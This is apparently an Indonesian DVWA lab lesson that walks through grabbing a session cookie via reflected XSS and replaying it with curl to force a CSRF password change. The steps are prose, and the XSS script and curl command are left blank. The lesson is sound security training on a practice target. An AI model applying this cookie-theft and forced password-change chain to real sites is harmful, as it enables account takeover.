## Lesson 10(Cross Site Request Forgery combined with curl)
Pada bagian kali ini kita akan mencoba melakukan eksploitasi password dvwa menggunakan session user yang terautentikasi.  
1. Pertama kita buka tab CSRF pada navigasi dvwa  
  
2. Selanjutnya kita isi **New password** dan **Confirm new password** dengan **abc123** lalu pilih **Change**  
  
3. Selanjutnya kita copy url pada step 2 lalu paste pada text editor    
  
4. Selanjutnya buka tab **XSS reflected** pada navigasi dvwa  
  
5. Selanjutnya kita isikan script `` untuk mendapatkan cookie  
  
6. Selanjutnya cookie akan ditampilkan melalui popup  
   
7. Selanjutnya kita copy cookie tersebut  
  
8. Selanjutnya kita paste ke text editor  
  
9. Selanjutnya kita harus logout  
  
9. Selanjutnya kita buat query untuk curl lalu kita copy  
    
	`- --cookie kita isi dengan cookie yang kita dapat dari xss reflected`  
	`- --location kita dapat dari url saat penggantian password`
	`perhatikan bahwa kita akan merubah password menjadi "password"`  
10. Selanjutnya kita paste query tersebut ke terminal  
  
11. Selanjutnya tekan enter. Apabila password berhasil diganti akan muncul tulisan **Password Changed**  
  
12. Selanjutnya kita coba login dengan password **abc123** diamana itu adalah password lama kita sebelum menggunakan curl  
    
Dapat kita lihat bahwa muncul pesan **Login failed** yang berarti password kita telah terganti.
13. Selanjutnya kita coba login dengan password **password**  
    
dapat kita lihat bahwa kita berhasil login dan pada popup di bagian kiri atas menunjukkan kita berhasil login dengan password: **password**  
